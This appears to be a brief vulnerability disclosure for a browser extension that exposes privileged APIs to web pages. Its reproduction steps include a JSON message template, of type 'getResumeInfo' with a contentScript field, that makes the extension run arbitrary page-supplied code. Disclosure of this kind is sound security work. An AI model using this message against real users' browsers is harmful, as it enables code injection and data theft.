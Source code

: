 This extension gives web applications access to privileged APIs: eval, host, storage, downloads

How to reproduce:

Use webpage to send message like below structure and then serialize the message using JSON.stringify before sending it.  
The extension will execute arbitrary code in the context of the content scripts of the current tab the user navigates to.  

{  
type: "getResumeInfo",  
downloadObj: {  
resumeWhereabouts: 5  
},  
context: {  
contentScript: CODE,  
jsMethod: "console.log"  
}  
}  

